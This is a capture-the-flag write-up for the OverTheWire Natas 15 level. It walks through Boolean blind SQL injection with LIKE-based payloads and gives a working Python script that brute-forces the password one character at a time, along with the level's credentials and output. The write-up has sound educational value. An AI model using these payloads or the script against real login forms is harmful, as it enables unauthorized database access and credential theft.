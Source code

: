 **Methodology & Execution**
- **Tools Used:** Browser, Python.
- **Theorizing the Approach:** Faced with the limited "user exists" or "user doesn't exist" output, I realised direct data extraction was not possible. This prompted me to research different types of SQL injection. Reading an article by SentinelOne led me to Blind SQL Injection, particularly the Boolean/content-based type, which perfectly matched this scenario. From this, I theorised that I would have to infer the password character by character based solely on whether the "This user exists" message appeared.
- **Step-by-Step Execution:**
	1. Confirmed the existence of the `natas16` user with the payload `natas16" -- -`, which successfully returned "This user exists."
	2. Probed for the password column and confirmed its existence and the Boolean mechanism: `natas16" AND password ="test" -- -`. This returned "This user doesn't exist." without an error, confirming the column was present and the response was based on the query's truthiness.
	3. Recognised that direct brute-forcing of a 32-character password (comprising uppercase, lowercase, and digits) would be computationally infeasible.
	4. Identified the `LIKE` operator as a method for pattern matching within SQL queries, allowing for character-by-character inference.
	5. Formulated an initial character-by-character inference payload: `natas16" AND password LIKE "a%" -- -`. Manually testing characters confirmed `h` was the first character when `natas16" AND password LIKE "h%" -- -` returned "This user exists."
	6. Developed a Python script to automate this character-by-character brute-force process, appending confirmed characters to `current_password`.
	7. **Self-correction:** Initially, the script produced an all-lowercase password. Recalling that previous Natas passwords contained mixed-case characters and that MySQL's `LIKE` operator can be case-insensitive by default depending on collation, I modified the payload to use `LIKE BINARY` to force case-sensitive comparison.
		```Python
		import requests
		import string
		
		TARGET = 'http://natas15.natas.labs.overthewire.org/index.php'
		AUTH = ('natas15', 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx')
		CHARSET = string.ascii_letters + string.digits
		PASSWORD_LENGTH = 32
		
		current_password = ""
		for i in range(1, PASSWORD_LENGTH + 1):
		    for c in CHARSET:
		        # Using LIKE BINARY for case-sensitive comparison
		        payload = f'natas16" AND password LIKE BINARY "{current_password + c}%" -- -'
		        data = {'username': payload}
		        response = requests.post(TARGET, auth=AUTH, data=data)
		        if "This user exists." in response.text:
		            current_password += c
		            print(f"Found character {i}: {c} - Password so far: {current_password}")
		            break
		print(f"Final password: {current_password}")
		```
	8. Executed the refined script, which successfully extracted the 32-character password: `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`. The output looked like:
		```Console
		Found character 1: h - Password so far: h
		Found character 2: P - Password so far: hP
		Found character 3: k - Password so far: hPk
		...
		Found character 31: G - Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
		Found character 32: o - Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
		Final password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
		```
